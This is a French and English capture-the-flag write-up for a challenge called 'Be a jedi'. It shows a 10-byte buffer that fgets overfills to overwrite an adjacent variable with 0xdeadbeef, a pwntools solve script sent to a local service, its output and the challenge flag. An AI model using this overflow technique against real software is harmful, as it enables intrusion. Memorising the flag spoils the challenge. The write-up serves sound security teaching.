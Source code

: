 # Be a jedi

## Write-up FR

Le programme `jedi` est un elf x86.
Lorsque nous nous connectons au service avec netcat, il nous demande si nous sommes un Jedi. Cependant, peu importe notre réponse, elle sera toujours considérée comme fausse.

En analysant le code source, on comprend que pour afficher le flag, la variable `int is_jedi` doit être égale à `0xdeadbeef`.
On remarque également une vulnérabilité de type `buffer overflow` due à la déclaration de la variable answer : 

```c
char answer[10];
...
fgets(answer,20,stdin);
```
Bien que answer ait une taille de `10` octets, il est possible de lui fournir jusqu'à `20` caractères via `fgets()`.
Par chance, la variable `is_jedi` est située juste avant `answer` en mémoire. Cela signifie que nous pouvons écraser sa valeur en dépassant la limite du buffer et en y insérant `0xdeadbeef`.

Puisque `answer` occupe `10` octets, nous devons simplement la remplir avec `10` caractères, suivis de `0xdeadbeef` pour modifier is_jedi :

```python
#sol.py
from pwn import *

p = remote("localhost", 4445)

p.recvline()

p.sendline(b"aaaaaaaaaa\xef\xbe\xad\xde")

p.interactive()
```
Ce qui donne : 
```bash
$ python sol.py 
[+] Opening connection to localhost on port 4445: Done
[*] Switching to interactive mode
>>> Hello jedi, this is your secret message
polycyber{y0u_r3_4_r34l_j3d1}[*] Got EOF while reading in interactive
$
```

## Write-up EN

The `jedi` program is an x86 ELF binary.
When we connect to the service using netcat, it asks whether we are a Jedi. However, no matter our response, it is always considered false.

By analyzing the source code, we understand that in order to display the flag, the variable `int is_jedi` must be set to `0xdeadbeef`.
We also notice a `buffer overflow` vulnerability in the declaration of the answer variable:
```c
char answer[10];
...
fgets(answer,20,stdin);
```
Although `answer` has a size of `10` bytes, it is possible to provide up to `20` characters via `fgets()`.
Luckily, the `is_jedi` variable is located just before `answer` in memory. This means we can overflow into `is_jedi` by writing beyond answer's buffer and setting it to `0xdeadbeef`.
```python
# sol.py
from pwn import *

p = remote("localhost", 4445)

p.recvline()

p.sendline(b"aaaaaaaaaa\xef\xbe\xad\xde")

p.interactive()
```
```bash
$ python sol.py 
[+] Opening connection to localhost on port 4445: Done
[*] Switching to interactive mode
>>> Hello Jedi, this is your secret message
polycyber{y0u_r3_4_r34l_j3d1}[*] Got EOF while reading in interactive
$
```

## Flag

`polycyber{y0u_r3_4_r34l_j3d1}`